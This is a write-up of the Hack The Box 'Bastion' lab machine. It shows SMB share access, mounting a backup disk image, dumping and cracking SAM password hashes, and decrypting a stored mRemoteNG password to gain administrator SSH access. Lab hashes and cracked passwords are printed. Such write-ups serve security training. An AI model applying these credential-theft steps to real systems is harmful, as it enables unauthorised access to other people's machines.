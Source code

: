 +++
title = "Bastion"
date = 2019-09-07
[taxonomies]
tags = ["hackthebox"]
+++

1. Initial scan show port 139 and 445 is open which means there might be an open SMB share available for mount.

	```shell
	smbclient //10.10.10.134/Backups
	```

	![htb-bastion-smb-backups](htb-bastion-smb-backups.png)

2. There are two .vhd files that could be useful for us. Instead of downloading it on our system, we can mount it directory using guestmount. This part could take awhile as the connection is slow.

	```shell
	guestmount --add /mnt/test/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
	```

3. Now that we have the .vhd file mounted, we can proceed with using samdump and extract the SYSTEM and SAM hash and see if we can match the hash using hashkiller.

	![htb-bastion-samdump2.png](htb-bastion-samdump2.png)

4. `hashkiller.co.uk` matches a hash result that shows `bureaulampje` is the password for `L4mpje` user.

	```shell
	*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                     
	*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                             
	L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 (bureaulampje):::
	```

5. Now if we `ssh` as the user, we should be able to retrieve the user flag

	```shell
	ssh L4mpje@10.10.10.134
	```

### Privilege Escalation

1. A software located in Program Files stuck out like a sore thumb:

	![htb-bastion-mremoteng.png](htb-bastion-mremoteng.png)

2. Further investigation showed there is a hidden `mRemoteNG` folder that contains the configuration file:

	![htb-bastion-mremoteng-hidden.png](htb-bastion-mremoteng-hidden.png)

3. Google search shows that you can decrypt the password by using this tool on github: [https://github.com/kmahyyg/mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

	```shell
	python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
	
	Password: thXLHM96BeKL0ER2
	```

	![htb-bastion-admin-pass.png](htb-bastion-admin-pass.png)

4. Now that we have decrypted the password, we should be able to log into as administrator and obtain root flag.

	```shell
	ssh administrator@10.10.10.134
	```